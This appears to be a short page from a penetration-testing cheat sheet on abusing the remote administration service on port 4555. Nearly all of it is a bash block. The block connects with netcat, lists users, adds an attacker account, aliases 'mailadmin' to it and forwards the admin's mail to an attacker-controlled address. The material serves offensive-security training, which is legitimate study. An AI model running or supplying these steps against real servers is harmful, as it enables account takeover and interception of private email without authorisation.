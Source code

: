 # 🟨 RSIP

### <mark style="color:orange;">Forwarding admin’s mails</mark> <a href="#forwarding-admin-s-mails" id="forwarding-admin-s-mails"></a>

```bash
# Connection through netcat (can test for creds)
nc -nv <IP> 4555

# Get commands
HELP

# Get users (hopefully an admin?)
listusers

# Add user
adduser haax haaxpass

# Set an alias for our user
setalias mailadmin haax

# Set mail forwarding
setforwarding mailadmin haax@lab.local
```
